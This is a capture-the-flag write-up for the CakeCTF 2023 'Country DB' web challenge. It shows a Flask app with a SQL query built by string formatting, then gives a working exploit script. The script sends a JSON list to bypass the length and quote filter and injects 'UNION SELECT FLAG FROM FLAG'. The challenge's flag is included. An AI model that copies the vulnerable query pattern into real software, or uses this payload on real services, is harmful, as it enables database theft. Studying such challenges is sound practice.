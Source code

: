 ```yaml
---
title: 2023 CakeCTF - Country DB
date: 2023-11-11 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_CakeCTF
  - Web Exploitation
  - SQL injection
---
```


## Overview

* 68 points / 246 solves
* author: ptr-yudai
* tag: warm-up

## Description

> Do you know which country code 'CA' and 'KE' are for?
> Search country codes [here](http://countrydb.2023.cakectf.com:8020/)!

### Attached

[country-db.zip](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_CakeCTF/attached/country_db_fc1912477a433a93f7d75a9b80389582.zip)


This is ```app.py``` file
```py
#!/usr/bin/env python3
import flask
import sqlite3

app = flask.Flask(__name__)

def db_search(code):
    with sqlite3.connect('database.db') as conn:
        cur = conn.cursor()
        cur.execute(f"SELECT name FROM country WHERE code=UPPER('{code}')")
        found = cur.fetchone()
    return None if found is None else found[0]

@app.route('/')
def index():
    return flask.render_template("index.html")

@app.route('/api/search', methods=['POST'])
def api_search():
    req = flask.request.get_json()
    if 'code' not in req:
        flask.abort(400, "Empty country code")

    code = req['code']
    if len(code) != 2 or "'" in code:
        flask.abort(400, "Invalid country code")

    name = db_search(code)
    if name is None:
        flask.abort(404, "No such country")

    return {'name': name}

if __name__ == '__main__':
    app.run(debug=True)

```

## Analyzation

Check ```init_db.py``` file, it is not hard to find out this is sqli.

The query is so simple

```sql
SELECT name FROM country WHERE code=UPPER('AF') UNION SELECT FLAG FROM FLAG -- trash
```

The main problem of this challenge is to bypass the filters
```py
req = flask.request.get_json()
if 'code' not in req:
    flask.abort(400, "Empty country code")

code = req['code']
if len(code) != 2 or "'" in code:
    flask.abort(400, "Invalid country code")
```

So the string's length must be 2.

Hmmm, does it have to be string??

## Vulnerability

It does not check type of ```code```, so it does not need to be a string. Another data type can be used instead.

After looking around, I find out ```list``` work!

## Solution

```py
import requests

# URL = "http://localhost:8020/api/search"
URL = "http://countrydb.2023.cakectf.com:8020/api/search"

data = {"code": ["') UNION SELECT FLAG FROM FLAG --", "# "]}

response = requests.post(URL, json=data)

print(response.text)
```

*I use empty string for the first query to prevent the result of that query stay up before flag*

The flag is
```
CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}
```

* Similar challenge: "upside-down cake" of TSG CTF (2023)*